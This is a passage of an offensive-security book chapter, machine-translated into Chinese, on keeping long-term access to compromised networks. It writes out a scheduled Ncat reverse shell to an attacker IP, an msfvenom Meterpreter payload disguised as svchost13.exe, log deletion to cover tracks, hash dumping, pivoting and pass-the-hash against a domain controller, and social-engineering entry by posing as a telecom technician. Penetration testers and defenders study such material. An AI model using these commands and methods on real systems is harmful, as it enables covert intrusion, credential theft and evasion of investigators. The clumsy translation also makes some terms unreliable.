# 在服务器或桌面上维护访问权限

有没有想过黑客们是如何进入一个安全的网络，在网络中呆上几个月甚至几年而不被抓获的？好吧，下面是一些你在里面呆着的大技巧。我们不仅要讨论维护您拥有的本地机器的访问权限，还要讨论如何在网络中使用**投递箱**，并让它打电话回家。

本章将介绍以下主题：

*   保持访问，或通过 ET 呼叫总部
*   使用 Ncat 维护访问权限
*   投递箱
*   破解**网络接入控制器**（**NAC**）
*   使用社会工程工具包创建鱼叉式网络钓鱼攻击
*   利用后门工厂逃避杀毒

# 维护访问或 ET 呼叫总部

黑客世界中的持久连接称为**打电话回家**。持久性使攻击者能够保持与攻击机器的连接，并与受害者机器建立完整的命令行或桌面连接。

为什么要这样做？您的网络通常受防火墙保护，与内部计算机的端口连接由防火墙控制，而不是由本地计算机控制。当然，如果你在一个盒子里，你可以打开 telnet，你可以从本地网络访问 telnet 端口。您不太可能从公共网络访问此端口。任何本地防火墙都可能会阻止此端口，网络扫描将显示 telnet 正在受害计算机上运行。这将提醒目标组织的网络安全团队。因此，与其在受损服务器上调用端口，不如让受害者机器向攻击机器发出呼叫，这样更安全、更有效。

在本章中，我们将主要使用 HTTPS 反向 shell。原因是您可以让受损机器调用攻击机器上的任何端口，但如果将此连接发送到不寻常的目的地，如攻击机器上的端口`4444`，则良好的 IDS/IPS 系统可以拾取此连接。大多数 IDS/IPS 系统都会将到 HTTPS 端口的出站连接列为白名单，因为大多数系统的系统更新都是通过 HTTPS 协议进行的。您与攻击机器的出站连接看起来更像是一个更新，而不是一个出站黑客端口。

持久连接必须直接返回到攻击者的计算机。您可以从一台或多台机器上旋转这种类型的连接，以覆盖您的轨迹。在目标网络内旋转一台机器，在目标网络外旋转两台机器，使防守队员更难看到发生了什么。

是的，你可以在朝鲜或中国的机器上转移这种类型的攻击，看起来攻击来自那里。每当我们在媒体上听到某个卑鄙的外国攻击者发起网络攻击时，我们都会翻白眼。除非您可以访问攻击机器及其日志，否则无法确定攻击的原始来源。即使能够访问这台攻击机器，您仍然不知道攻击者为进入这台机器做了多少次旋转。你仍然不知道最后一次连接的完整回溯。在这个过程中使用类似 Tor 的东西，任何人都无法确切地知道黑客是从哪里来的。

在这个演示中，我们将从一个四向支点出发，通过四个不同的国家进行攻击，向您展示如何做到这一点。是的，我们这样做是真的！

不要*攻击我们将在本书中使用的公共 IP 地址。这些是我们个人为这个项目租用的服务器。到本书出版时，它们将不再受我们的控制。*

持久连接的一个问题是它们可以被看到。我们永远不能低估一个偏执狂系统管理员的谨慎眼光（*为什么服务器 192.168.202.4 与一个中文 IP 地址有四天的 HTTP 连接？*。真正的攻击者会使用这种方法来掩盖自己的行踪，以防被抓到，并检查攻击服务器是否有入侵者的证据。在您退出每台机器并完全清除日志之后，追踪连接几乎是不可能的。在攻击者眼中，建立持久连接的第一个框将被视为恶意框，并且他们将在每次连接后删除与此计算机的连接痕迹。

请注意，在下图中，受害者机器有一个内部地址。由于受害者机器正在呼叫，我们绕过了 NAT 的入站保护和入站防火墙规则。受害者机器将呼叫新加坡的服务器。攻击者正在与美国的受损机器进行交互，但在登录到新加坡的邪恶服务器之前，正在进行两次跳跃。我们在这个演示中只使用了四个跃点，但是您可以使用任意多的跃点。跳得越多，后面的轨迹就越混乱。一个好的攻击者在下一次进入时也会混淆跳跃，改变他的路由和入站连接的 IP 地址：


第一跳，我们要去阿姆斯特丹！如果我们运行`whois`可以看到：

```
whois 178.62.241.119

inetnum:    178.62.128.0 - 178.62.255.255
netname:    DIGITALOCEAN-AMS-5
descr:     DigitalOcean Amsterdam
country:    NL
admin-c:    BU332-RIPE
tech-c:    BU332-RIPE
status:    ASSIGNED PA
mnt-by:    digitalocean
mnt-lower:   digitalocean
mnt-routes:  digitalocean
created:    2014-05-01T16:43:59Z
last-modified: 2014-05-01T16:43:59Z
source:    RIPE # Filtered  
```

黑客提示：
一个好的调查员，看到这些信息，会在受害者打电话回家时，传唤 DigitalOcean 找出谁租用了 IP，但很可能是列宁格勒一位小老太太的机器。僵尸网络的基础设施是从一组受损的盒子中开发出来的。本章介绍一个小型自己动手的僵尸网络。

现在我们将转向德国的东道主`46.101.191.216`。同样，如果我们运行一个`whois`命令，我们可以看到：

```
whois 46.101.191.216

inetnum:    46.101.128.0 - 46.101.255.255
netname:    EU-DIGITALOCEAN-DE1
descr:     Digital Ocean, Inc.
country:    DE
org:      ORG-DOI2-RIPE
admin-c:    BU332-RIPE
tech-c:    BU332-RIPE
status:    ASSIGNED PA
mnt-by:    digitalocean
mnt-lower:   digitalocean
mnt-routes:  digitalocean
mnt-domains:  digitalocean
created:    2015-06-03T01:15:35Z
last-modified: 2015-06-03T01:15:35Z
source:    RIPE # Filtered  
```

现在转到位于新加坡的 pivot 主机`128.199.190.69`，并运行`whois`命令：

```
whois 128.199.190.69

inetnum:    128.199.0.0 - 128.199.255.255
netname:    DOPI1
descr:     DigitalOcean Cloud
country:    SG
admin-c:    BU332-RIPE
tech-c:    BU332-RIPE
status:    LEGACY
mnt-by:    digitalocean
mnt-domains:  digitalocean
mnt-routes:  digitalocean
created:    2004-07-20T10:29:14Z
last-modified: 2015-05-05T01:52:51Z
source:    RIPE # Filtered
org:      ORG-DOI2-RIPE  
```

我们现在准备从新加坡发起攻击。我们离目标机器只有几英里远，但对于毫无戒心的 IT 系统安全管理员来说，攻击似乎来自半个世界之外。

# 掩盖我们的踪迹

如果我们拥有对这些机器的 root 或 sudo 访问权限，我们可以通过运行以下命令彻底退出。这将删除我们登录的痕迹。由于这是我们的攻击机器，我们将以 root 用户身份运行。包含 SSH 服务的登录信息的文件是`/var/log/auth.log`。如果我们删除它，然后创建一个新文件，那么我们登录的日志现在就不存在了：

1.  进入`/var/log`目录：

```
cd /var/log  
```

2.  删除`auth.log`文件：

```
rm auth.log  
```

3.  创建新的空文件：

```
touch auth.log  
```

4.  删除终端会话：

```
exit  
```

现在从服务器上退出，你就完蛋了。如果您在退出连接时在每台机器上执行此操作，则无法找到您。因为这都是基于文本的，所以在通过这么多的轴运行命令时，您不会注意到任何延迟。此外，所有这些通信都是通过 SSH 加密的，因此没有人可以看到您正在做什么或要去哪里。

# 使用 Ncat 维护访问权限

**NetCat**（**Ncat**）是一个鲜为人知但功能强大的工具，用于与网络端口进行原始套接字连接。它是一个小型工具，设计用于从一个可执行文件运行，该文件可以轻松地传输到系统，也可以重命名为任何名称，以隐藏操作系统中的可执行文件。Ncat 将回调仅具有用户级访问权限的攻击服务器。Ncat 是[为您带来的开源应用程序 https://www.insecure.org](https://www.insecure.org) 和维护 Nmap 的优秀员工一样。Ncat 和它的堂兄**nc**都安装在 Kali 上。Ncat 与 Nmap 的任何安装捆绑在一起。

实际上，正如前面提到的，Ncat 有两个版本。旧版本的可执行文件为`nc`。`nc`还将与任何 TCP/UDP 端口建立原始套接字连接：


Ncat 的最大优点是它支持 SSL 加密，其中 nc 的所有通信量都是明文。Nc 的流量有时可以通过 ID/IP 和其他安全设备获取。Ncat 的流量可以加密和隐藏，并显示为 HTTPS 流。Ncat 还能够仅允许来自特定 IP 地址或 IP 子网的连接。

破坏机器的最初攻击可能是网络攻击，也可能是使用某种社会工程方法，例如，一封带有有效负载的矛式网络钓鱼电子邮件连接回攻击服务器。

下面的屏幕截图显示了您想要拒绝的报价的 PDF。此 PDF 包含相同的*呼叫总部*有效负载，旨在安装恶意软件有效负载，无需用户进行任何交互或批准。此 PDF 是在一个漂亮的工具中创建的，我们将在下一节中介绍，*使用社会工程工具包*创建矛式网络钓鱼攻击：


一旦最初的攻击破坏了它，我们希望系统定期呼叫总部。这样的漏洞可以设置为保持一个恒定的连接，每次连接丢失时，它都会重置连接。也可以将其设置为按指定的间隔重新连接。我们喜欢将这些设置为使漏洞在某个时间呼叫总部，如果攻击机器上没有可连接的端口，那么漏洞将保持沉默，直到该时间再次到来。一个完全持久化的连接可以引起网络安全的注意。

我们现在已连接到受害者机器，并将 Ncat 的副本上载到受害者。从会话中我们可以看出，这是一次内部攻击。`ncat.exe`文件位于 Kali 上的`/usr/share/ncat-w32/`目录中。连接后，在 MeterMeter 中运行以下命令：

```
upload /usr/share/ncat-w32/ncat.exe C:/windows/ncat.exe  
```


这将 Ncat 可执行文件传输到受害者系统。请注意，对于目录斜杠，我们使用的是`/`而不是`\`。由于您使用的是 Linux，因此必须使用正斜杠**/**。如果您使用**\**并运行该命令，您会发现目录名将一起运行，文件将无法正确上载。

转到 Windows 7 受害者，我们可以在`Windows`目录中看到该文件：



# 设置 NetCat 客户端

自 WindowsNT3.14 以来，Windows 一直使用命令行工具来运行计划任务。此工具称为`AT`命令。此命令与 Linux 或 UNIX 上可用的`cron`命令非常相似。您可以设置运行任何命令行工具或脚本的时间、日期和次数。因此，`shell`通过与机器的仪表连接进入系统：

```
shell  
```

你现在是受害者。键入以下命令：

```
AT 5:00PM ncat.exe -nv 128.199.190.69 443 -ssl -e cmd.exe  
```


这将设置每天下午 5:00 运行的作业。它将使用以下变量运行`ncat.exe`可执行文件。正在调用端口`443`上的攻击服务器`128.199.190.69`。`-ssl`标志告诉连接使用 SSL。`-e cmd.exe`标志告诉可执行文件通过连接运行`cmd.exe`可执行文件。

下午 5:00 之前，我们使用各种枢轴登录到我们的邪恶服务器，以监听模式启动`ncat`，等待下午 5:00 到来。

注意，我们在这里连接到`//rogue3`并运行以下命令：

```
ncat -nvlp 443 -ssl  
```

`-n`标志告诉系统不要使用 DNS。`-v`告诉系统将输出设置为详细，以便您可以看到输入和输出。`-l`让 Ncat 听。`-p`告知 Ncat 在端口`443`上监听，`-ssl`告知 Ncat 使用 SSL 加密会话：



我们现在已连接到被黑客攻击的 Windows 7 计算机，并具有完全的管理员访问权限，该漏洞将在每天下午 5:00 准备好使用，而不会对网络进行任何进一步的攻击。

警告
真正的攻击者会将 Ncat 的名称更改为文件系统中更模糊、更难发现的名称。小心两个`calc.exe`或`notepad.exe`生活在你的系统中。一个在一个陌生的地方很可能是 Ncat 或其他类型的开发，如我们下一步要建立的。

# 用 Metasploit 给家里打电话

那是老派的方法。现在，让我们使用 Metasploit 的工具做同样的事情。我们将在我们邪恶的服务器`//rogue3`上加载 Metasploit，让我们的受害者机器连接到该机器上的仪表外壳。我们将从早期的内部黑客中构建并上传此漏洞。除了`msfconsole`之外，我们还将使用 Metasploit 工具包中的一些其他工具。Metasploit 附带一个独立的应用程序，用于构建自定义漏洞利用和外壳代码。这个工具叫做`msfvenom`，我们将使用它来构建一个漏洞。`msfvenom`的充分使用本身可能是一个完整的章节，超出了本书的范围，因此我们将在这里使用最常见的标志构建一个反向 HTTP 漏洞，以生成我们的可执行文件。我们将通过运行以下命令来构建该漏洞：

```
msfvenom -a x86 -platform windows -p windows/meterpreter/reverse_https -f exe -o svchost13.exe  
```

MSFvenom 是一个功能强大且可配置的工具。MSFvenom 有能力构建自定义漏洞攻击，从而绕过任何防病毒软件。防病毒软件通过查看文件的签名来工作。MSFvenom 有能力对漏洞进行编码，因为这种漏洞是防病毒软件无法检测到的。这是一种隐藏利用漏洞的情况，因为另一个常见的可执行文件（如记事本 MSFvenom）可以向可执行文件添加 NOPs 或空代码，使其达到与原始文件相同的大小。很可怕，不是吗？

下表显示了标志列表：

| 用法： |
| `/opt/metasploit/apps/pro/msf3/msfvenom [options] <var=val>` |
| **选项** | **多头期权** | **变量** | **评论** |
| `-p` | `--payload` | `<payload>` | 要使用的有效载荷。指定一个`-`或`stdin`来使用自定义有效载荷 |
| `-l` | `--list` | `[module_type]` | 列出模块类型示例：有效载荷、编码器、NOP、所有 |
| `-n` | `--nopsled` | `<length>` | 将[length]大小的 NoPled 预先添加到有效负载上 |
| `-f` | `--format` | `<format>` | 输出格式（列表使用`--help-formats`） |
| `-e` | `--encoder` |  | 要使用的编码器 |
| `-a` | `--arch` | `<architecture>` | 要使用的体系结构 |
|  | `--platform` | `<platform>` | 有效载荷的平台 |
| `-s` | `--space` | `<length>` | 生成的有效负载的最大大小 |
| `-b` | `--bad-chars` | `<list>` | 要避免的字符列表；示例：`\x00\xff` |
| `-i` | `--iterations` | `<count>` | 对有效负载进行编码的次数 |
| `-c` | `--add-code` | `<path>` | 指定要包含的其他 win32 外壳代码文件 |
| `-x` | `--template` | `<path>` | 指定要用作模板的自定义可执行文件 |
| `-k` | `--keep` |  | 保留模板行为并将负载作为新线程注入 |
| `-o` | `--options` |  | 列出有效负载的标准选项 |
| `-h` | `--help` |  | 显示此消息 |
|  | `--help-formats` |  | 列出可用的格式 |

下面的屏幕截图显示了命令的输出。`msfvenom`表明没有使用编码器，也没有检查构建中实现的坏字符。对于本演示，不需要它们：


现在，通过运行`ls`命令，我们可以看到我们的文件：



现在我们有东西要上传。与 Ncat 示例一样，我们将使用系统的内部妥协来上传我们的漏洞：



与 Ncat 一样，我们将进入受害者机器并设置`AT`命令以运行`svchost13.exe`：

```
shell
AT 5:25PM c:\windows\svchost.exe
exit  
```

下午 5:25 前，登录邪恶服务器`//rogue3`。启动 Metasploit 服务`msfconsole`，设置并运行侦听器以接受连接。然后使用以下命令设置公共处理程序模块：

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 128.199.190.69
set LPORT 443
exploit  
```

运行该漏洞攻击后，处理程序将开始监听端口`443`上的连接，等待无助的受害者呼叫总部。等了一会儿，我们看到一个连接从`69.131.155.226`出现。这是我们的受害者机器后面的防火墙地址。然后，处理程序向系统提供一个命令提示符。运行 meterpeter 命令`sysinfo`，我们可以看到名称和机器信息。从这里开始，你可以完全控制！

真正的攻击者可能会利用此漏洞进行攻击，并且在数月内不会回来。出现问题的唯一迹象就是每天下午 5:25 一个连接断开并出现故障。只是网络上的一个小插曲。



你可能会对下一次征服感到兴奋，但由于我们在网络防火墙后面的机器上，让我们看看网络的其余部分。通过运行`ipconfig`，我们看到这台机器上有两个网络接口。一个位于 10 号网络`10.100.0.0/24`，另一个位于 192.168 号网络`192.168.202.0`。这两个都是受保护的网络，但重要的是网络不是平坦的。不能在专用范围内的两个不同网络类之间路由数据包。10 网络可以访问互联网，因此它可能是一个 DMZ，其上的机器可能更坚固，并且包含的数据价值更低。这可能意味着另一个网络上的数据中有一些宝藏。这种类型的 pivot 可以连接到任何一个网络，但让我们在这里攻击后端网络，并获得真正的金牌：



红色标记的路径是我们将从持久连接中获取的枢轴路径，用于攻击后端网络上的域控制器。

一天中的这个时候到了，我们在邪恶的服务器上启动了我们的监听器，受害者的机器打电话回家。我们准备更进一步。我们将使用 MeterMeter 命令`autoroute,`获取进入`192.168.202.0/24`网络的路由。

这一次，当我们设置处理程序时，我们将在运行`exploit`命令时使用`-j`标志将会话发送到后台：



然后受害者的机器呼叫进来。这告诉我们，目标网络中的防火墙未被调整以阻止该出站数据包流，并且该异常行为未向其**入侵检测系统**（**IDS**发出警报。我们有一个联系：


我们在受害者机器内，所以我们可以运行 DOS 命令。如果我们运行`ipconfig,`，我们会看到两个接口及其地址：


正如我们所知，系统管理员经常在他们的网络中重复使用密码，所以让我们从这台机器上获取哈希值，并在 DC 上进行尝试。将这些散列保存到文本文件或您的**KeepNote**中。你以后会需要它们的。

```
getsystem
hashdump  
```

注意，`hashdump`命令还找到并下载了`BO Weaver`的密码提示。提示是`funny`。这可能会使您更容易猜测密码。有些人几乎用密码暗示自己的密码，比如*突袭者之星 Qback 1970*。只要稍加研究，你就会知道这位四分卫是乔治·布兰达，他 43 岁，那是袭击者队在 NFL 的第一个赛季。他的球衣号码是 16。您的密码列表需要包括*乔治布兰达 16*、*布兰达 1970*以及其他相关内容：


键入以下内容：

```
run autoroute -s 192.168.202.0/24  
```

然后运行以下命令打印出路线：

```
run autoroute -p  
```

我们看到我们有一条进入后端网络的路线：



# 在 Metasploit 中运行端口扫描程序

现在你有了路线，是时候侦察了。为了降低噪音，我们将在 Metasploit 中使用一个简单的端口扫描仪：

1.  通过键入以下命令退出我们的 MeterMeter：

```
background  
```

这将保持会话在后台打开和运行。

2.  按如下方式设置扫描仪：

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.202.0/24
set PORTS 139,445,389  
```

我们已设置端口`389`以查找域控制器。

3.  按如下方式设置活动线程的数量：

```
set THREADS 20    
```

4.  按如下方式运行扫描仪：

```
run    
```

扫描程序运行时，我们看到一个 Windows 域控制器。这是我们的新目标：



我们现在有了目标和密码哈希，所以下一步是上传一个漏洞。由于我们有登录凭据，我们将使用`psexec`模块连接到域控制器：


我们没有使用明文密码，因为我们从 Win7 机器的管理员帐户捕获了哈希。因为我们有散列，所以不必强制输入密码。机器不同类别的密码可能总是不同的，但在这种情况下，它们是相同的。

在 Metasploit 中传递散列
散列和密码一样有效。这被称为传递散列的**。通过散列攻击已经存在至少十年了，它们使用网络上可用的 Windows 登录会话信息。该漏洞利用**本地安全机构**（**LSA**信息获取登录到网络上机器的用户的 NTLM 哈希列表。用于获取信息的工具，如 Metasploit 框架或 Pass the Hash Toolkit，可以获取用户名、域名以及 LM 和 NT 哈希。**

一旦漏洞被利用，我们会得到一个 MeterMeter 外壳，通过运行`sysinfo`，我们可以看到我们在域控制器中：

```
sysinfo  
```


如前所述，Windows Active Directory 将密码散列存储在 SAM 数据库中，因此我们可以使用`hashdump`命令转储域中的所有散列：

```
hashdump  
```


我们现在已经从一个没有互联网接入的后端网络获得了王国的所有密钥。如果您注意到`hashdump`中用户名后面的数字，您可以看到管理员是用户`500`。许多专家告诉 Windows 网络管理员更改管理员帐户的名称，这样就没有人知道哪些用户拥有哪些权限。显然，这是行不通的。即使使用用户名`NegligibleNebbish`，只要 UID 为`500`就表明这是一个具有管理权限的用户。

如果我们将此会话放在后台并运行 sessions 命令，我们可以看到两个会话都从`//rogue3`邪恶服务器运行到我们的受损系统：

```
background
sessions -l  
```



# 投递箱

投递箱，有时也称为**跳转箱**，是一种小型设备，可以隐藏在目标物理位置的某处。让设备进入该位置有时需要其他技能，如社会工程，甚至是一点破门而入，才能让设备进入该位置。投递箱也可以是由安全顾问公司发送的，安装在网络上用于从远程位置进行内部测试的箱子。


菠萝

如今，小型全功能计算机既便宜又易于配置。市场上也有专门为这一用途设计的设备，可以直接开箱即用。Raspberry Pi 是板上的一台小型计算机，运行一个完整的 Linux 发行版，可以为这项工作进行配置。有两种用于此用途的设备是 Wi-Fi 菠萝和 Pwnie Express。Wi-Fi 菠萝是我们个人的最爱。它配有两个可单独配置的 Wi-Fi 接入点。它只比一包香烟稍大一点。拥有两个 Wi-Fi 收音机使该设备能够连接任何网络并从中旋转。USB CAT5 适配器也可以连接到有线网络。这些设备是成熟的 Linux 系统，任何 Linux 应用程序都可以安装在这些系统上。

覆盆子圆周率是另一个整洁的设备，可以用于此。Raspberry Pi 是一个小型单板 ARM 系统，可以运行许多版本的 Linux 操作系统。是的，我们在进攻性安全部门的好朋友为我们制作了一个版本的卡利，只是为了树莓皮。只需将图像复制到 micro SD，系统即可启动。他们还有另一个巧妙的秘密行动技巧。Pi 设置可以完全加密，并设置为从远程系统完全引导。通过使用特殊密码删除私钥，也可以远程屏蔽或禁用此系统。有关如何设置此设备的详细信息，请参见本章末尾的链接。

所以，现在你必须偷偷地把它放到网络上。对于有线网络来说，一种长期以来最受欢迎的入侵方式是友好的 Telco guy 方法。在互联网上可以很容易地找到不同公司的员工徽章。制作徽章也是一个简单的过程。您可以在被动示意图阶段找出谁为您的目标提供电信服务。一旦你有了徽章，你就带着你的工具包和笔记本电脑出现在目标地点，到前台说*“嗨，我是电信运营商的”*。我们收到了一张通知单，说互联网运行缓慢。“你会惊讶地发现，这是多么容易进入门，直接被带到电话柜。进入电话柜后，您可以隐藏并连接预配置的投递箱。当它启动时，它给家里打电话，你就在里面了！记住，安全性最薄弱的环节始终是人机界面。

对于一种较少干扰的方法，如果你的目标在办公室有 Wi-Fi，你可以使用它作为你的攻击向量。这就是两台 Wi-Fi 收音机播放的地方。一个可用于攻击并连接到目标网络，另一个可用于连接到目标网络。菠萝被设计成由 USB 电池组供电，就像你用来给手机充电的电池组一样。根据电池的大小，菠萝可以在断电前运行 72 小时或更长时间。通过这种安排，你的邪恶包裹甚至可以很容易地隐藏在灌木丛中，在没有交流电源的情况下运行。如果攻击期间不可能在该区域内，并且您无法给邪恶服务器打电话回家，则捕获的数据也可以复制到设备上的闪存卡中。

当你对一个地点进行物理侦察时，寻找建筑物外的电缆。有时，当在某个位置进行扩展时，运行电缆的人员会在建筑物的外部运行一个下降点，以使安装更容易，但这会留下一扇攻击的门。有了一个很好的藏身之处、两个 RJ45 连接器和一个便宜的交换机，你就可以接入有线网络。

# 破解网络访问控制器（NAC）

如今，NAC 设备在网络上变得越来越普遍。NAC 确实提供了更高级别的安全性，但它们并不是其供应商的营销和销售资料所表明的“终结一切”解决方案。我们将向您展示一种绕过公司网络上 NAC 控制的简单方法。

下面的信息来自我们不久前对一家真正的公司进行的真正的黑客攻击。当然，为了保护公司，所有的名称和 IP 地址都已更改。这不是理论。这是一个真实世界的黑客。这部电视剧的好处在于，我们都是好人。可悲的是，它只花了大约 30 分钟就解决了这个问题，也许还需要 2 个小时才能完全实现。

我们将为公司绕过 NAC，https://www.widgetmakers.com. Widget Makers 公司有两个网络：一个是公司局域网（CorpNET），另一个是包含机密数据的生产网络（ProdNET）。这两个网络是平面设计的，两个网络都可以相互完全访问。在 CorpNET 上配置并安装了 NAC 设备。员工现在必须在其机器上使用 NAC 代理连接到 CorpNET。小部件制造商使用 SIP 电话进行语音通信。这些电话不在单独的 VLAN 上。它们连接到 CorpNET VLAN 以便于使用。Widget 制造商在 CorpNET 上也有许多网络打印机。

NAC 设备使用安装在用户机器上的代理来登录和验证用户和机器的身份。这些设备可以配置为使用**远程身份验证拨入用户系统**（**RADIUS**）服务器或域控制器获取用户凭据。有时，NAC 设备使用证书对机器进行身份验证。在没有代理和登录的情况下试图欺骗内部机器的 MAC 地址通常会导致 MAC 地址被锁定在网络之外。

系统中的弱点是代理。大多数 NAC 系统是专有的，并与一家供应商绑定。一个供应商的代理人不会与另一个供应商的代理人合作，并且没有 NAC 控制的标准。大多数供应商只生产在 Windows 上运行的代理，因此如果您的网络上有 Mac 或 Linux 工作站，则无法使用 NAC 控件将其连接到网络。现在，供应商将告诉您运行仅限 Windows 的网络。如果你是一个阅读这本书的系统管理员，你知道在现实中没有这样的事情。即使所有工作站和服务器都在任何网络上运行 Windows，也有其他设备不运行或无法运行 Windows。

